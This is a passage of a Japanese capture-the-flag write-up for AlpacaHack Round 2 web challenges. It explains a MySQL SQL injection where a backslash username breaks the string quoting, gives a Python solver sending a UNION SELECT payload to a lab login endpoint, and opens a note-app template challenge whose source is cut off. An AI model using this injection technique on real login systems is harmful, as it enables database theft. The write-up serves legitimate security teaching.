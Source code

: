 ### 想定解法

`'{username}'`か`'{password}'`のどちらかでうまく文字列から抜けて任意のSQL文を記述させることが目標です。

ここで`username`の値が`\`だった場合を考えてみましょう。利用しているDBMSであるMySQL 8.0は、[ドキュメント](https://dev.mysql.com/doc/refman/8.0/ja/string-literals.html)によれば、文字列中に`\'`と記述することによって`'`の文字を表すことが可能です。よって、本来文字列の終了を期待している`'`が文字列のひとつの文字として認識され、後続のSQL文も文字列と解釈されるようになります。つまり、`'\' AND password = '`が文字列リテラルとして解釈されます。

よって、`password`の入力値においてはすでに文字列の外に脱出できているため、あとは一般的なSQL injectionの要領で他のテーブルの情報を盗みだせばOKです。

### ソルバ

```python
import os
import httpx

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

res = client.post(
    "/login",
    data={
        "username": "\\",
        "password": "UNION SELECT value, value from flag -- ",
    },
    follow_redirects=True,
)
print(res.text)
```

### 感想/補遺

典型ではあるものの、少しひねりが必要なSQL injectionの問題を1問目として出題してみました。エスケープ自体はMySQLにかかわらず一般的なプログラミング言語にも存在するため、仕様を知らなくても、色々と試行錯誤したり調べたりしてるうちに思いつくことを意図しています。

補足として、文字列での`\`によるエスケープはDBMSに共通する仕様ではないので注意が必要です。

## Pico Note 1

- 277 pts (10 solves)
- https://alpacahack.com/ctfs/round-2/challenges/pico-note-1

問題文:
> The template engine is very simple but powerful 🔥
>
> - Attachments: pico-note-1.tar.gz

### 問題概要

シンプルなノートアプリが与えられます。ユーザは`title`と`content`のパラメータを指定して、それらを表示することが可能です。

```javascript title="web/index.js"
import Fastify from "fastify";
import crypto from "node:crypto";
import { promises as fs } from "node:fs";

const app = Fastify();
const PORT = 3000;

// A simple template engine!
const render = async (view, params) => {
  const tmpl = await fs.readFile(`views/${view}.html`, { encoding: "utf8" });
  const html = Object.entries(params).reduce(
    (prev, [key, value]) => prev.replace(`{{${key}}}`, value),
    tmpl
```

[^intro-01]: 加えて、あまり広くリーチできていなかったというのと、タイムゾーンの問題があったにもかかわらず、海外の強い方にも多く参加してもらえてびっくり&感謝です。[CTFTime](https://ctftime.org/event/2465/)に登録したのも一定以上の効果があったりする？
[^intro-02]: AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！
[^pico-note-1-01]: 厳密にはサブセットではありません。興味がある人は調べてみてください。
[^pico-note-1-02]: 最初は`replace`ではなく`replaceAll`を使ってましたが、レビュワーから「`replaceAll`のMDNのページには該当の仕様の記述がなく、知らない人が想定解にたどり着くのは困難」という指摘を受け、たしかにと思い`replace`に変更しました。実際、`replaceAll`のままだった場合として、難易度がどの程度変わるのかは気になるところです。
[^pico-note-1-03]: 記憶しているところではDragon CTF 2021のweb/webpwnで初めて遭遇しました（参考: https://balsn.tw/ctf_writeup/20211127-dragonctf2021/#webpwn ）。これは、replaceAllの仕様を悪用してSQLiを行う問題です。
[^caas-01]: タグ関数によっていい感じにエスケープされるようなインターフェイスは最近よく見ます。コマンド呼び出しだとzx以外にBunも[同様のインターフェイスのAPI](https://bun.sh/docs/runtime/shell)を提供していますし、SQLだと[Slonik](https://github.com/gajus/slonik)あたりがそうです。JavaScriptの言語機能をうまくSecure by Defaultなインターフェイスとして活用できていて、良い流れだなと思っています。